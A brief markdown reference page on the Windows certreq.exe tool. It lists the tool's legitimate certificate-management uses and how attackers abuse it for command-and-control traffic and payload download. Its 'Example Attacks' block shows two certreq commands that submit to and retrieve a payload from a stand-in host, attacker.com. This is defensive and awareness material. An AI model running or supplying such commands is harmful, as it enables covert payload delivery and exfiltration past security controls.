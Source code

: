 # certreq.exe
## What is it?
CertReq.exe is a Windows tool used for managing certificate requests.
It allows users to generate, submit, and retrieve certificates from a certificate authority (CA).*

## Legitimate Use
- *Generating and submitting certificate requests.*
- *Managing SSL/TLS certificates for encryption.*
- *Retrieving issued certificates from an enterprise CA.*

## How to abuse it
- *Used to communicate with remote C2 servers by abusing certificate requests.*
- *Can be exploited to download encoded payloads hidden in certificate responses.*
- *Bypasses security controls by operating within trusted cryptographic processes.*

## Example Attacks
```
certreq -submit -config "http://attacker.com/cert" malicious.cer

certreq -retrieve -config "http://attacker.com" payload.cer
```
